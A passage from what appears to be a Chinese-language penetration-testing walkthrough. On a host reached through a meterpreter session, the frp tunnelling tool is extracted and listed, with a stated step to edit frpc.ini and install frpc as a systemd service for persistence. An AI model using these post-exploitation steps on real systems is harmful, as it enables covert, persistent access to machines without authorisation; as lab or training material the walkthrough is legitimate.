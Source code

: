 ```

     0K .......... .......... .......... .......... ..........  0% 46.4M 0s
    50K .......... .......... .......... .......... ..........  1% 42.7M 0s
   100K .......... .......... .......... .......... ..........  1%  335M 0s
   150K .......... .......... .......... .......... ..........  2% 48.3M 0s
   200K .......... .......... .......... .......... ..........  2%  199M 0s
   250K .......... .......... .......... .......... ..........  3% 49.9M 0s
   300K .......... .......... .......... .......... ..........  3% 92.5M 0s
```



![image-20211013151811453](assets/image-20211013151811453.png)



```shell
#解压frp_0.37.1_linux_amd64.tar.gz
tar xf frp_0.37.1_linux_amd64.tar.gz
exit                                        #退出
```



修改frpc.ini配置文件,并添加frpc为systemctl服务启动

```shell
meterpreter > cd frp_0.37.1_linux_amd64
meterpreter > pwd
/root/frp_0.37.1_linux_amd64
meterpreter > ls
Listing: /root/frp_0.37.1_linux_amd64
=====================================

Mode              Size      Type  Last modified              Name
----              ----      ----  -------------              ----
100644/rw-r--r--  11358     fil   2021-10-13 03:24:09 -0400  LICENSE
100755/rwxr-xr-x  10579968  fil   2021-10-13 03:24:09 -0400  frpc
100644/rw-r--r--  126       fil   2021-10-13 03:24:09 -0400  frpc.ini
100644/rw-r--r--  9503      fil   2021-10-13 03:24:09 -0400  frpc_full.ini
```
